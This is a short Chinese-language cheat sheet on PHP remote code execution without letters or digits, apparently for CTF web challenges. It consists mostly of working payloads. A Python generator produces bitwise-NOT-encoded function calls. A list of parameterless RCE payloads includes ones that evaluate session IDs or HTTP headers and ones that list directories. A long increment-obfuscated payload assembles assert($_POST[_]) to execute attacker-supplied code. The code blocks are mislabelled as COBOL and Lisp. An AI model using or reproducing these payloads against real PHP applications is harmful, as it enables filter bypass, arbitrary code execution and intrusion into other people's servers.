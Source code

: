 ## 无数字字母RCE

### 不能加参数

```cobol
exp = ""
def urlbm(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:]
    return f"[~{ss}][!%FF]("
while True:
    fun = input("Firebasky>: ").strip(")").split("(")
    exp = ''
    for each in fun[:-1]:
        exp += urlbm(each)
        print(exp)
    exp += ")" * (len(fun) - 1) + ";"
    print(exp)
```

不能加参数的rce

```lisp
eval(hex2bin(session_id(session_start())));
 
print_r(current(get_defined_vars()));&b=phpinfo();
 
eval(next(getallheaders()));
 
var_dump(getenv(phpinfo()));
 
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
 
print_r(scandir(next(scandir(getcwd()))));//查看上一级目录的文件
```

### 自增

如果过滤取反这些符号 就考虑自增

直接payload

assert($_POST[_]);

```cobol
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```
